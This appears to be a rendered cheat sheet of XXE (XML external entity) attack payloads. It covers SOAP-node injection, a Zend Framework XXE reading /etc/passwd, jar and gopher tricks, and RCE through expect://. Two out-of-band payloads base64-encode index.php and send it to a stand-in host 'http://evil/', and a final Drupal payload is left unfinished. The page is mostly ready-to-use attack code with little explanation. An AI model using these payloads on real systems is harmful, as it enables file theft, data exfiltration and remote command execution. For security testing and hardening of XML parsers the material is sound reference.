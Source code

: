 ##### XXE inside a SOAP node (https://twitter.com/Agarri_FR/status/656440244116574208)
```xml
<soap:Body><foo><![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://0x0:22/"> %dtd;]><xxx/>]]></foo></soap:Body>
```
##### Zend Framework (patched in versions 1.11.12 and 1.12.0 of Zend Framework)
- https://www.sec-consult.com/fxdata/seccons/prod/temedia/advisories_txt/20120626-0_zend_framework_xxe_injection.txt
- http://framework.zend.com/security/advisory/ZF2012-01
```xml
<?xml version="1.0"?><!DOCTYPE foo [<!ELEMENT methodName ANY ><!ENTITY xxe SYSTEM "file:///etc/passwd" >]><methodCall><methodName>&xxe;</methodName></methodCall>
```
##### upload
* gopher
   - useful because java doesn't support `http://login:pass@host` but ok for `ftp://`

* jar
 - `jar:http://x.x.x.x/blah.jar!/mypkg/lol.class`
 - `jar:file:///etc/hosts!/` # can enum files but i havent found how to yield file content with this
 - point to remote URL will temporarily save the file (need dir listing to know name of temp file tho)
 - can upload any format not just zip

##### can RCE if expect module is installed and loaded (not by default)
```xml
<!ENTITY a SYSTEM 'expect://id'>
```
##### exfil
- payload:
```xml
<!DOCTYPE meh [<!ENTITY % file SYSTEM "php://filter/zlib.deflate/convert.base64-encode/resource=index.php"><!ENTITY % dtd SYSTEM "http://evil/send.dtd">%dtd;%send;]]>
```
- send.dtd:
```xml
<!ENTITY % all "<!ENTITY &#x25; send SYSTEM 'http://evil/?%file;'>">%all;
```
##### exfil2
- payload:
```xml
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://evil/oob.xml">
%sp;
%param1;
]>
<r>&exfil;</r>
```
- oob.xml
```xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=index.php">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://evil/?%data;'>">
```
##### synacktiv drupal services
```xml
<!DOCTYPE doc [
 <!ENTITY % remote SYSTEM "http://../test.xml">
 %remote;
 %intern;
 %trick;
```
